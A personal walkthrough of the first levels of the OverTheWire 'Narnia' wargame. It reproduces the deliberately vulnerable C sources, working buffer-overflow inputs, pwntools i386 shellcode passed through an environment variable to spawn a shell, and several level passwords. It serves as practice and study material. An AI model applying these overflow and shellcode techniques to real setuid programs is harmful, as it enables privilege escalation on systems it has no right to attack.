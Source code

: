 # Narnia

It looks like this is a set of C exploit challenges:
```bash
narnia0@narnia:~$ cd /narnia/
narnia0@narnia:/narnia$ ls -l
total 108
-r-sr-x--- 1 narnia1 narnia0 7568 Nov  9  2017 narnia0
-r--r----- 1 narnia0 narnia0 1186 Nov  9  2017 narnia0.c
-r-sr-x--- 1 narnia2 narnia1 7404 Nov  9  2017 narnia1
-r--r----- 1 narnia1 narnia1 1000 Nov  9  2017 narnia1.c
-r-sr-x--- 1 narnia3 narnia2 5164 Nov  9  2017 narnia2
-r--r----- 1 narnia2 narnia2  999 Nov  9  2017 narnia2.c
-r-sr-x--- 1 narnia4 narnia3 5836 Nov  9  2017 narnia3
-r--r----- 1 narnia3 narnia3 1841 Nov  9  2017 narnia3.c
-r-sr-x--- 1 narnia5 narnia4 5336 Nov  9  2017 narnia4
-r--r----- 1 narnia4 narnia4 1064 Nov  9  2017 narnia4.c
-r-sr-x--- 1 narnia6 narnia5 5700 Nov  9  2017 narnia5
-r--r----- 1 narnia5 narnia5 1261 Nov  9  2017 narnia5.c
-r-sr-x--- 1 narnia7 narnia6 6076 Nov  9  2017 narnia6
-r--r----- 1 narnia6 narnia6 1602 Nov  9  2017 narnia6.c
-r-sr-x--- 1 narnia8 narnia7 6676 Nov  9  2017 narnia7
-r--r----- 1 narnia7 narnia7 1974 Nov  9  2017 narnia7.c
-r-sr-x--- 1 narnia9 narnia8 5232 Nov  9  2017 narnia8
-r--r----- 1 narnia8 narnia8 1292 Nov  9  2017 narnia8.c
```
Each user can read the source of the challenge level and each binary is a setuid
binary that runs under the next user.

Now that I've done a few, these are definitely more involved that anything else
so far in overthewire: there is zero hand holding and each comes down to
essentially (for me) three parts:
  1) Identify the target in the source code.
  2) Google what you can do with that...
  3) Exploit it!


### lvl-0
```c
#include <stdio.h>
#include <stdlib.h>

int main(){
	long val=0x41414141;
	char buf[20];

	printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
	printf("Here is your chance: ");
	scanf("%24s",&buf);

	printf("buf: %s\n",buf);
	printf("val: 0x%08x\n",val);

	if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
		system("/bin/sh");
    }
	else {
		printf("WAY OFF!!!!\n");
		exit(1);
	}

	return 0;
}
```

So...we need to provide some input that overflows the `buf` buffer.
The buffer is 20 characters long but the `scanf` reads 24 characters which will
stomp on the value of `val`. We need to set those last 4 characters correctly.

OK, a bit of hacking around in Python didn't get me very far as It looks like I
need a way of providing HEX input to the program as `0xad` is non-printable.
(See https://www.rapidtables.com/code/text/ascii-table.html for a full table).

You can use `echo -e` to use hex escape codes so lets try that:
```bash
narnia0@narnia:/narnia$ echo -en "AAAAAAAAAAAAAAAAAAAA\xde\xad\xbe\xef" | ./narnia0 
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAޭ��
val: 0xefbeadde
WAY OFF!!!!
```

That's the correct hex pairs but reversed...(after a bit of googling, this is
because of the direction the stack is growing: I need to reverse the pairs in
the input.)

```bash
narnia0@narnia:/narnia$ echo -en "AAAAAAAAAAAAAAAAAAAA\xef\xbe\xad\xde" | ./narnia0 
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ�
val: 0xdeadbeef
```

Success!...but no shell. WTF? Let's try creating the payload string with python:

```bash
narnia0@narnia:/narnia$ python -c "print ('a' * 20) + '\xef\xbe\xad\xde\x88'"
aaaaaaaaaaaaaaaaaaaaﾭވ

# Copy that and then paste in at the prompt

narnia0@narnia:/narnia$ ./narnia0 
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: aaaaaaaaaaaaaaaaaaaaﾭވ
buf: aaaaaaaaaaaaaaaaaaaaﾭ�
val: 0xdeadbeef
$ whoami
narnia1
$ cat /etc/narnia_pass/narnia1
efeidiedae
```
Woo!

efeidiedae


### lvl-1
```c
#include <stdio.h>

int main(){
	int (*ret)();

	if(getenv("EGG")==NULL){    
		printf("Give me something to execute at the env-variable EGG\n");
		exit(1);
	}

	printf("Trying to execute EGG!\n");
	ret = getenv("EGG");
	ret();

	return 0;
}
```

Sooo...what? This looks something up in the environment then tries to call it as
a C function?!

```bash
narnia1@narnia:/narnia$ ./narnia1
Give me something to execute at the env-variable EGG

narnia1@narnia:/narnia$ EGG=ls ./narnia1
Trying to execute EGG!
Segmentation fault
```

So, whatever gets returned from the ENV lookup, gets executed as a C function
(or it tries to at least). Back to google!

Ah, so this needs to be some `shellcode`: a set of assembler instructions that
open a remote shell. There are tonnes of examples online...but URGH that feels
nasty to try one out! Good job it's on this remote server...!

Oh! pwntools! Looks like they have a bunch of built in stuff for precisely this
sort of thing:
```python
# python2 only on this server (maybe at all?)
>>> from pwn import *
>>> asm(shellcraft.i386.linux.sh())  # Look into this more...
'jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80'
```

```bash
narnia1@narnia:/narnia$ EGG=$'jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80' ./narnia1
Trying to execute EGG!
$ whoami
narnia1
```
Something seems to be borked...every write up I can find on this says that this
the correct thing to do and it should be a shell with `narnia2` perms not
`narnia1`... :(

Looking it up:
nairiepecu


### lvl-2
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char * argv[]){
	char buf[128];

	if(argc == 1){
		printf("Usage: %s argument\n", argv[0]);
		exit(1);
	}
	strcpy(buf,argv[1]);
	printf("%s", buf);

	return 0;
}
```

So, we have an unguarded strcopy which means that we can...do stuff? Need to research this one!
```
$ man strcpy
.
.
.
BUGS
       If  the  destination  string  of  a  strcpy()  is  not large enough, then anything might happen.  Overflowing fixed-length string buffers is a
       favorite cracker technique for taking complete control of the machine.  Any time a program reads or copies data into  a  buffer,  the  program
       first needs to check that there's enough space.  This may be unnecessary if you can show that overflow is impossible, but be careful: programs
       can get changed over time, in ways that may make the impossible possible.
```

Well THAT sounds like the sort of thing I'm after!
